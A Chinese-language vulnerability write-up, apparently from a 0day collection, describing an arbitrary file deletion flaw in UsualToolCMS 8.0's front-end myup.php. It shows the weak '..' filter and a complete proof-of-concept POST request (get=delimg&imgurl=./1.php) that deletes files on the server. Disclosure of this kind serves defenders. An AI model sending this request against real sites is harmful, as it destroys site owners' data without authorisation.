 # UsualToolcms 前台任意文件删除

> 原文：[http://book.iwonder.run/0day/UsualToolcms/1.html](http://book.iwonder.run/0day/UsualToolcms/1.html)

## 一、漏洞简介

前台 myup.php 文件最后一段存在任意文件删除

## 二、漏洞影响

UsualToolCMS-8.0-Release

## 三、复现过程

漏洞点：[http://0-sec.org/myup.php](http://0-sec.org/myup.php)

![image](img/9343dec3621173a5966acf21ef8c130f.png)

第 47 行只对..精心过滤，我仍然能任意删除网站内部的文件，直接构造 poc，

![image](img/12b3745bffbd2ca90637763c0103c9e7.png)

![image](img/fbc69ff49bb0f35b504e96295a791954.png)

```
POST /UsualToolCMS/myup.php HTTP/1.1
Host: 0-sec.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:48.0) Gecko/20100101 Firefox/48.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

get=delimg&imgurl=./1.php 
```

